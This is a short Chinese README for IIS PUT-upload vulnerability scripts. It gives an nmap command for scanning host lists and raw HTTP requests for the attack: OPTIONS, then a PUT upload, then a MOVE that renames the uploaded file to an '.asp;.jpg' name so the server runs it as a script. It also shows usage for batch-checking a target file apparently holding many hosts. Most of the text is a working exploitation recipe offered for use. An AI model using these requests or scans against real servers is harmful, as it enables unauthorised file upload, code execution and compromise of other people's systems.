

# IIS PUT 上传漏洞检测脚本

nmap检测ii6

nmap -sT -sV -p 80-90,443,8001-8090,8443 -O --script http-headers.nse,http-methods,http-put.nse,http-iis-webdav-vuln.nse --open -Pn -v -oN iis6_res.txt -iL 777.txt


手动检测：
1、检测开启的方法
```
OPTIONS / HTTP/1.1
HOST:XXX.XXX.XXX.XXX
```

2、PUT上传文件，Burp可能会返回403禁止上传，但是用py可以上传
```
PUT /3.txt HTTP/1.1
HOST:XXX.XXX.XXX.XXX
Content-Length:1

1
```

3、move方法将上传的文件改为脚本后缀
```
MOVE /2222.txt HTTP/1.1
HOST:XXX.XXX.XXX.XXX
Destination:http://23.236.75.141/2222.asp;.jpg
```
* iis_put.py

* iis_put_multi.py

## iis_put.py

单个IP检测

python3 iis_put.py http://xxx.xxx.xxx.xxx



## iis_put_multi.py

批量检测

python3 iis_put_multi.py /root/unAuth/Drupal/us.txt 10


